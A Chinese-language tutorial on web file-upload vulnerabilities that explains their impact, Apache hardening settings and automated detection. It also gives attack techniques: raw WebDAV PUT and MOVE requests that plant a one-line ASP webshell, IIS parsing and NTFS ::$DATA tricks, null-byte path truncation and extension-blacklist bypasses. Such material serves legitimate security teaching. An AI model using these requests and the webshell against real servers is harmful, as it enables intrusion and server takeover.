


原文 by wooyun wiki、t00ls.net

## 一、文件上传漏洞
### 漏洞危害
  
1).上传文件是web脚本语言，服务器的web容器解释并执行了用户上传的脚本，导致代码执行。
  
2).上传文件是flash的策略文件crossdomain.xml，黑客可以绕过flash跨域请求的限制。
  
3).上传文件是病毒、木马文件，黑客用以诱骗用户或者管理员下载
  
4).上传文件是钓鱼图片或者包含了脚本的图片，在某些版本的浏览器上会作为脚本执行，被用于钓鱼和欺诈。
  
除此之外，还有一些不常见的利用方法，比如上传文件使一些web后台处理程序溢出，比如图片解析模块；或者上传一个txt文件，但里面包含了部分php脚本，如果还存在本地文件包含漏洞，也会导致代码执行。
  
### 漏洞细分
  
1、	[高危]，上传脚本木马、二进制文件，导致服务器被入侵；
  
2、	[中危]，上传htm, html, swf 等静态资源，可造成存储XSS等；
  
3、	[低危]，上传flash文件头（CWS）的图片文件，可造成flash跨域读取

  
要完成这个攻击，要满足以下几个条件：
  
1.上传的文件能够被web容器解释执行。所以文件上传后所在的目录需要能被web容器所覆盖到。
  
2.用户能够从web上访问这个文件。如果文件上传了，但用户无法通过web方式，或者无法让web容器解释这个脚本，那么也不能称之为漏洞。
  
3.用户上传的文件若被安全检查，格式化，图片压缩，文件改名，内容编码过滤等改变了内容，则也可能导致攻击不成功。
  

  
### 设计安全的文件上传功能
  
1.文件上传的目录设置为不可访问某些可执行脚本后缀的文件（如果站点还存在文件包含漏洞，也可能被执行）。
  
以Apache为例,我们可以利用 .htaccess 文件机制来对web server行为进行限制
  
在这里插一句，如果不是专门的文件下载目录，请务必关掉文件夹浏览的权限，以防止嗅探和可能的越权，也是使用.htaccess文件，在其中加上一句 `Options All -Indexes`即可，但请注意 .htaccess 不能被上传覆盖掉。
  
  
禁止脚本执行有多种方式可以实现，而且分别有不同的效果，我们分别来看一下
  
1.1.指定特定扩展名的文件的处理方式,原理是指定Response的Content-Type 可以加上如下几行
  
`AddType text/plain .pl .py .php`
  
这种情况下，以上几种脚本文件会被当作纯文本来显示出来，你也可以换成其他的Content-Type
  
1.2.如果要完全禁止特定扩展名的文件被访问，用下面的几行
  
```
  
Options -ExecCGI
  
AddHandler cgi-script .php .pl .py .jsp .asp .htm .shtml .sh .cgi
  
```
  
在这种情况下，以上几种类型的文件被访问的时候，会返回403 Forbidden 的错误
  
1.3.也可以强制web服务器对于特定文件类型的处理，与第一条不同的是，下面的方法直接强行让apache 将文件识别为你指定的类型，而第一种是让浏览器识别
  
```
  
<FilesMatch "\.(php|pl|py|jsp|asp|htm|shtml|sh|cgi)$">
  
ForceType text/plain
  
</FilesMatch>
  
```
  
看代码就可以很明白的知道，符合上面正则的全部被认为是纯文本，也可以继续往里面加入其他类型。
  
1.4.只允许访问特定类型的文件
  
```
  
<Files ^(*.jpeg|*.jpg|*.png|*.gif)>
  
order deny,allow
  
deny from all
  
</Files>
  
```
  
在一个上传图片的文件夹下面，就可以加上这段代码，使得该文件夹里面只有图片扩展名的文件才可以被访问，其他类型都是拒绝访问。
  
2.判断文件类型，可以结合使用mime type、后缀方式、文件头部（getimagesize、exif_imagetype），强烈推荐白名单方式。
  
3.使用随机数改写文件名和文件路径；或者把文件放在非web 目录下，且设置open_basedir 以避免被文件包含。
  
4.单独设置文件服务器的域名。
  

  
### 自动化检测上传漏洞思路
  
1. 请求一个url，从body 解析出 form enctype="multipart/form-data" 的表单，获取目标地址，从 input or textarea 标签中解析出参数name和value，比如 type=file, name=pic；
  
2. 模拟post 表单方式提交请求，比如 filename 是自定义包含随机字符串的.ext，文件data 是一些php 等脚本语言的一些执行语句，比如echo 一个md5(随机串)；ext 可以是 php, php.123(某些webserver不解析123时会解析php), .htaccess(该文件若可自定义，可控制webserver是否解析非正常后缀文件), 静态文件html
  
3. 看post 之后返回的内容中是否包含文件链接（form,frame,a,meta），若有请求之，看返回内容是否匹配;
  
4. 若没有则遍历路径，直到最顶层，看是否存在上传的文件；
  
5. 拼接常见的存放上传文件的目录名，看是否存在上传的文件；
  
6. 若找不到上传的文件，可能是文件名被改名，或者目录比较随机，但此时若文件data是会被执行的一些命令  
（比如上传了一个图片，图片内容含一些命令执行，而图片会被ImageMagick 处理）也会有盲打的效果。
  

  
此种方法不能解决使用 js 来发起请求（即存在form 表单但缺失action 属性，点击提交后由ajax 发起请求[data: new FormData($('#uploadForm')[0])]）的情形，甚至有些 form 表单需要点击某个地方才会渲染展开，也不能覆盖。
  
或者直接从某些流量获取后端上传cgi 的请求包体，替换 filename、content-type 和 文件 data 部分，再重放请求包。  
但存在一种非正常格式的上传数据包，此时也没办法自动覆盖，即把 文件名name 和 文件 类型 type 作为get 参数，而文件内容作为 post body。    
  
注意：表单中没有name 属性的数据不会被提交。
  
出于安全考虑，浏览器只允许用户点击`<input type="file">`来选择本地文件，用JavaScript 对`<input type="file">`的value 赋值是没有任何效果的。当用户选择了上传某个文件后，JavaScript 也无法获得该文件的真实路径。
  

  
文件上传绕过思维导图：
  
除了下面的一些思路，比如可以尝试下畸形的http 请求，比如去掉文本body 里面的content-type，去掉content-disposition 间隔的空格，将 name, filename 等大小写，如果 waf 没有处理好这些情况，而 apache 等服务器又能够识别这类畸形请求，就可能导致绕过。
  

  

  
## 二、漏洞成因
  
导致文件上传的漏洞的原因较多，主要包括以下几类：
  

  
- 服务器配置不当
  
- 开源编辑器上传漏洞
  
- 本地文件上传限制被绕过
  
- 过滤不严或被绕过
  
- 文件解析漏洞导致文件执行
  
- 文件路径截断
  

  
1.服务器配置不当
  
当服务器配置不当时，在不需要上传页面的情况下便可导致任意文件上传，IIS服务器 相关put 方法漏洞参见下面描述：
  
对服务器发送OPTION包：
  
```
  
OPTIONS / HTTP/1.1
  
Host: www.xxx.com
  
```
  
若返回的HTTP响应头中带有PUT、MOVE等方法时则可以确定服务器开启了WebDAV。
  
此时用PUT上传一个SHELL，但SHELL后缀不可以是可执行文件后缀。
  
```
  
PUT /test.txt HTTP/1.1
  
Host: www.xxx.com
  
Content-Length: 23
  

  
<%eval request("a")%>
  
```
  
若服务器启用了“WebDAV”扩展，并且复选了“写入”，就可以写入txt文件了。
  
若服务器开启了“脚本资源访问”，可以用MOVE方法将txt后缀文件改成可执行文件的后缀。
  
```
  
MOVE /test.txt HTTP/1.1
  
Host: www.xxx.com
  
Destination: http://www.xxx.com/shell.asp
  
```
  
若服务器关闭了“脚本资源访问”，可利用IIS解析漏洞来执行shell。
  
```
  
MOVE /test.txt HTTP/1.1
  
Host: www.xxx.com
  
Destination: http://www.xxx.com/test.asp;.jpg
  
```
  
若服务器开启了DELETE方法，可以使用以下HTTP请求删除制定文件。
  
```
  
DELETE /test.txt HTTP/1.1
  
Host: www.xxx.com
  
```
  
你也可以使用以下的开源DAV管理工具：
  
[DAV Explorer](http://www.davexplorer.org/installation.html)
  

  
2.开源编辑器上传漏洞
  
很多开源的编辑器历史上都有不同的上传漏洞，包括但不只限于CKEditor。
  

  
3.本地文件上传限制被绕过
  
只在客户端浏览器上做了文件限制而没有在远程的服务器上做限制，只需要修改数据包就可以轻松绕过限制。
  

  
4.过滤不严或被绕过
  
有些网站上使用了黑名单过滤掉了一些关键的可执行文件脚本后缀等，但黑名单不全或者被绕过，导致可执行脚本文件被上传到服务器上，执行。
  
如在服务器后端过滤掉了后缀为.php的文件，但并没有过滤掉.php3等其他可执行文件脚本后缀，攻击者就可以上传带有其他的可执行文件脚本本后缀的恶意文件到服务器上。
  
常用的一些可执行的文件脚本的后缀
  
php、php2、php3、php5、phtml、asp、aspx、ascx、ashx、cer、jsp、jspx
  

  
5.在某些情况下由于管理员错误的服务器配置（将.html后缀的文件使用php进行解析等）会导致.html、.xml等静态页面后缀的文件也可被执行。
  

  
6.在上传文件保存磁盘为NTFS格式时可通过::$DATA绕过黑名单限制，如果上传的文件名字为：test.php::$DATA，会在服务器上生成一个test.php的文件，其中内容和所上传文件内容相同，并被解析。
  

  
7.有时服务器只对第一个被上传的文件进行了检查，这时通过同时上传多个文件并将恶意文件掺杂进其中也可绕过服务器的过滤。
  

  
8.文件解析漏洞导致文件执行
  
当服务器上存在文件解析漏洞时，合法的文件名便可导致带有恶意代码的文件被执行，参见解析漏洞。
  

  
9.文件路径截断
  
在上传的文件中使用一些特殊的符号，使得文件被上传到服务器中时路径被截断从而控制文件路径。
  
常用的进行文件路径截断的字符如下 \0、?、%00
  

  
10.在可以控制文件路径的情况下，使用超长的文件路径也有可能会导致文件路径截断。
  

  
11.除了常见的检查文件名后缀的方法外，有的应用还会判断上传文件的文件头来验证文件的类型。因为为了绕过类似浏览器MIME Sniff的功能，常见的攻击技巧是伪造一个合法的文件头，而将真实的php 等脚本代码附在文件头之后，比如
  

  
但此时，仍需通过php 来解释此图片文件（后缀为php或者结合文件解析漏洞）才行。
  

  

  
